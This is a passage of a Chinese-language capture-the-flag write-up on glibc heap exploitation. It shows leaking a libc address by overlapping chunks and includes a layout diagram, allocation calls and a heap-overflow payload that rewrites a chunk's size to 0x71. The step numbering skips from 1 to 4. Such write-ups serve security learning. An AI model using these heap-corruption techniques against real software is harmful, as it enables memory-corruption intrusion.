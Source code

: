    ![0xb](/img/image-20220724040122446.png)

## 方法二：通过chunk重叠泄露

[参考网址](https://blog.csdn.net/qq_29343201/article/details/66476135)

```c
//目标构造结果                             chunk 1 ends here ----+
          |------    ------  fake_chunk(0x70)   ------    ------|
          v                                                     v
+---------+-----------+----------------+---------------+--------+-----
| chunk0  | new chunk1|                |  chunk2 head  | libc!  |  next size
| 0x60    |head(0x10) | content 0x40   |               | (fd,bk)| (be valid size)
+---------+-----------+----------------+---------------+-------------     
```

1. allocate chunk为leak做准备

   ```python
   allocate(0x60)	#用作修改之后分配的chunk
   allocate(0x40)	#构造一个fastbin类的chunk1用作最终泄露的chunk
   allocate(0x100)	#构造一个smallbin类的chunk2用以泄露地址
   ```

   ![0xc](/img/image-20220725203007401.png)

4. 通过堆溢出修改chunk1的size(大小必须在fastbin范围之内)，此处size修改为0x70

   ```python
   payload= b'a'*0x60 + p64(0) + p64(0x71)
   fill(0,len(payload),payload) #堆溢出修改chunk1_size构成重叠的chunk
   ```
